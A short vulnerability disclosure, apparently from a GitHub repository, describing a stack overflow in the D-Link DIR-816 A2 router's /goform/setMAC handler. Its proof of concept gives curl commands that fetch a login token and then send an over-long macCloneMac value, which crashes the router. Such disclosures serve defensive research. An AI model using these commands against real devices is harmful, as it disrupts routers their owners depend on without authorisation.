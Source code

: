 # D-Link DIR-816 A2 Stack Overflow

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: GD@hillstone

**Vendor Homepage**: http://www.dlink.com.cn/

## detail description

In the handler of route `/goform/setMAC`  the value of parameter macCloneMac is saved on the stack.

However, there's no check on length of the parameter, and a very long input could lead to stack overflow and overwrite the return address。



## POC

first,get the token

`curl -s http://192.168.0.1/dir_login.asp | grep tokenid`

<input type="hidden" name="tokenid"  value="xxxx" >

then,we could send the crafted parameter along with the token to the route:

```
curl -i -X POST http://192.168.0.1/goform/setMAC -d tokenid=1804289383 -
d 'macCloneMac=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
```

final,the route will crash.